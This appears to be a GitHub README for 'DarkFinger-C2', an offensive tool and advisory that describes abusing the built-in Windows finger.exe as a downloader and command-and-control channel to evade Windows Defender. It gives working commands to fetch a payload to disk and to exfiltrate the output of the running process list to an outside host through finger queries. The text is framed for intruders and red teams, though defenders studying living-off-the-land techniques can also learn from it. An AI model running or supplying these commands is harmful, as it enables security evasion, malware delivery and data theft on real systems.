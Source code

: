 # DarkFinger-C2
Windows TCPIP Finger Command / C2 Channel and Bypassing Security Software

http://hyp3rlinx.altervista.org/advisories/Windows_TCPIP_Finger_Command_C2_Channel_and_Bypassing_Security_Software.txt

Microsoft Windows TCPIP Finger Command "finger.exe" that ships with the OS, can be used as a file downloader and makeshift C2 channel.
Legitimate use of Windows Finger Command is to send Finger Protocol queries to remote Finger daemons to retrieve user information.
However, the finger client can also save the remote server response to disk using the command line redirection operator ">".

Intruders who compromise a computer may find it is locked down and "unknown" applications may be unable to download programs or tools.
By using built-in native Windows programs, its possible they may be whitelisted by installed security programs and allowed to download files.

Redteams and such using LOL methods have made use of "Certutil.exe", native Windows program for downloading files. However, Certutil.exe is
recently blocked by Windows Defender Antivirus and logged as event "Trojan:Win32/Ceprolad.A" when it encounters http/https://.

Therefore, using Windows finger we can bypass current Windows Defender security restrictions to download tools, send commands and exfil data.
The Finger protocol as a C2 channel part works by abusing the "user" token of the FINGER Query protocol "user@host". C2 commands masked as
finger queries can download files and or exfil data without Windows Defender interference.

Download files:
C:\> finger <C2-Command>@HOST > Malwr.txt

Exfil running processes:
C:\> for /f "tokens=1" %i in ('tasklist') do finger %i@192.168.1.21

PoC
https://www.youtube.com/watch?v=cfbwS6zH7ks
  
![ScreenShot](DarkFingerC2.JPG)
  
 MIT License

Copyright (c) 2020 John Page (aka hyp3rlinx)

Permission is also explicitly given for insertion in vulnerability databases and similar,
provided that due credit is given to the author Copyright (c) 2020 John Page (aka hyp3rlinx).


